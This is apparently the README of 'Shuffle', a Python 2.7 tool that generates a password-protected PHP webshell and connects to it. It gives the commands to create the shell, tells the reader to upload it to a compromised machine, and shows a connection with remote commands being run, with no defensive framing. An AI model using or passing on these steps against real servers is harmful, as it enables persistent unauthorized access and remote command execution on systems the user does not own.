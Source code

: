 ![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extra/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.1 (Beta)
### Installation

Only you need is Python 2.7

## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connetec
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p 123
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p 123
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```

Now you can run all command !

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$> ls
app
lib
index.php

```
License
----

MIT

**Free Software, Hell Yeah!**